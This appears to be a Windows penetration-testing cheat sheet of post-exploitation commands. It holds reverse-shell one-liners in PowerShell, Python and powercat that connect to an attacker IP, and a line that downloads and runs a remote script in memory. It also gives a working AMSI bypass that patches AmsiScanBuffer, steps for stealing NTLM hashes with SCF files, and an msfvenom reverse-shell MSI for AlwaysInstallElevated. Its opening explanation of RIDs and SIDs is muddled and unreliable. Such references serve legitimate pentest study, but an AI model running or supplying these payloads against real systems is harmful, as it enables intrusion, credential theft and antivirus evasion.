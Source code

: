 ## about RID's
The RID of a group can be used to extract the SID of the group, if we have the RID then disregarding the last 8 characters(last 4 bytes) in the RID(hex format) we can get the SID of the group(in hex)
To get the RID of a user we can take it's individual ID(500 for administrator, rest are random but will be till 10500) then convert it to hex, making 0x14f, padding it to 4 bytes making it 0x0000014f, inverting it making it 0xf4100000 and then appending it with the SID of the group to get the RID of the user

## exploiting UNC paths to get NTLM hash
To get NTLM hashes are to somehow get an authenticated connection back to us, there by giving us hashes
1. One of of doing it is to somehow upload .scf files to the machine. SCF files are command files which containt very limited amount of windows explorer commands, which does not need any user interaction, and gets executed the moment a user opens the directory which contains the .scf file. So hence we can specify a UNC path to connect to and set up an smb server using responder, this will give us the NTLM hashes, because given a UNC path, windows thinks that it needs to authenticate to the remote machine, thereby giving away its hash. This attack was also prevelant in .lnk(shortcuts) files but was patched. More on this here https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/

## getting a reverse shell:-
`powershell -c "$client = New-Object System.Net.Sockets.TCPClient("IP",PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` (via powershell)<br />
or<br />
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["cmd.exe"]);'` (via python) 
or<br />
`powercat -c "IP" -p PORT -e cmd.exe` (via powercat)<br />
or<br />
simply use netcat
## first move to a powershell:-
powershell.exe

## then the obvious:-
`whoami`<br />
`echo %username%` (if whoami doesnt work) ONLY FOR CMD NOT FOR POWERSHELL<br />
`$ENV:USERNAME` (if whoami doesnt work) ONLY FOR POWERSHELL NOT FOR CMD<br />
`whoami /priv`<br />
`net user`<br />
`net localgroup Administrators`<br />
`Get-ExecutionPolicy`<br />
`powershell.exe -ep bypass` (to set execution policy to bypass)<br />
`Get-Host | Select-Object Version` (to check the whole version of powershell)<br />
`$PSVersionTable.PSVersion.Major` (to check the version of powershell)


## About the system and proccess running:-
`systeminfo`<br />
`tasklist`<br />
`([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)` (to check if you r admin or not)<br />
`(Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Lanmanserver\Parameters" -Name SMB1 -ErrorAction SilentlyContinue | Select-Object "SMB1")` (to check for smb version 1)<br />

## Running scripts from memory
`iex (New-Object Net.WebClient).DownloadString('http://ip/script.ps1'); "function name with args"`

## Bypassing AMSI
```powershell
$code = @"
using System;
using System.Runtime.InteropServices;

public class Native
{

[DllImport("kernel32.dll")]
public static extern IntPtr LoadLibrary(string name);

[DllImport("kernel32.dll")]
public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

[DllImport("kernel32.dll")]
public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $code
$amsiDll = [Native]::LoadLibrary("am" + "si.dll")
$asbAddress = [Native]::GetProcAddress($amsiDll, "Am" + "si" + "Sc" + "an" + "Buf" + "fer")
$ret = [Byte[]] ( 0xC3 )
$o = 0
[Native]::VirtualProtect($asbAddress, [uint32]$ret.Length, 0x40, [ref] $o)

[System.Runtime.InteropServices.Marshal]::Copy($ret, 0, $asbAddress, $ret.Length)
[Native]::VirtualProtect($asbAddress, [uint32]$ret.Length, $o, [ref] $null)
```
To list all the directories excluded by win defender, we can simply query a register using `reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions /s"`

## Locate files in the whole drive
`dir filename.extension /s` (do it from C:\ folder)(supports regex)
`dir /a /q` (linux like ls -la, gives time modified as well as file owner)

## Show all folders and files including hidden ones
* `dir /a` - For cmd.exe
* `dir -force` - For powershell.exe
<br />

## To Download somthing from the internet or intranet:-
`powershell.exe -command (New-Object System.Net.Webclient).DownloadFile("http://ip address/domain:port/file","download location's full path\programname.extension")`<br />
`powershell Invoke-Webrequest -OutFile 'Dstn path.Extension' -Uri http://ip address/domain:port/file`

**Note**: 
    curl too works in powershell, except for windows-IoT and similar minimal installations <br />
#### usage example:
    curl http://<IP>:<PORT>/file_name -Output Output_filename     

## Decrypting Powershell SecureString (ONLY WORKS WHEN YOU ARE THE OWNER OF THE XML FILE)
### If you have a xml object file

`$credential = Import-CliXml -Path  PathToXml\MyCredential.xml` <br />
`$credential.GetNetworkCredential().Password` <br />

### If you have a single string

`$secretStuff = Get-Content  -Path secretstuff.txt | ConvertTo-SecureString` <br />
`[Runtime.InteropServices.Marshal]::PtrToStringAuto([Runtime.InteropServices.Marshal]::SecureStringToBSTR((($secretStuff))))`

## Checking and exploiting AlwaysInstallElevated Permission

To check if this permission is enabled or not

1. reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
2. reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

If both of these come 0x1 then that means the permissions is allowed.
If it is allowed then we can install any .msi file with system privelages so now we just need to make a payload from msfvenom like this "msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.10.14.10 LPORT=2345 --encoder x64/xor --iterations 9 --format msi --out test.msi" and put it in the target box and simply execute it by not trigger the uac and any gui with this "msiexec /quiet /qn /i test.msi" and u get a shell on your listener

## Checking any remaing sticky keys

Sometimes users do put stuff in sticky keys which is stored in C:\Users\USER\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState

## We can get ntlm hash of users via write access to a directory

If we have write access to any folder, using ftp, smb, etc. then we can upload a .scf file and follow https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/ this link in order to steal hash of any user who opens the directory containg the scf file
